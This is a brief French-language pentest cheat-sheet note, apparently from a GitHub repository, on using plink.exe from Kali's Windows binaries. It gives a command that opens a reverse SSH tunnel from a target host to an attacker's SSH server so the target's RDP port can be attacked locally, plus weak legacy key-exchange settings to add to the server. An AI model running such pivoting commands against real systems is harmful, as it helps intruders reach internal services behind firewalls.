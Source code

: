 # plink
kali: présent dans: /usr/share/windows-binaries/

## utiliser ssh pour ensuite attaquer le port localement:
plink.exe <users>@<IP or domain> -pw <password> -P 22 -R 12345:127.0.0.1:3389



## si pbm de key exchange: à ajouter en fin de serveur ssh:

HostKeyAlgorithms ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521,ssh-rsa,ssh-dss

KexAlgorithms ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group14-sha1,diffie-hellman-group-exchange-sha256

MACs hmac-sha2-256,hmac-sha2-512,hmac-sha1


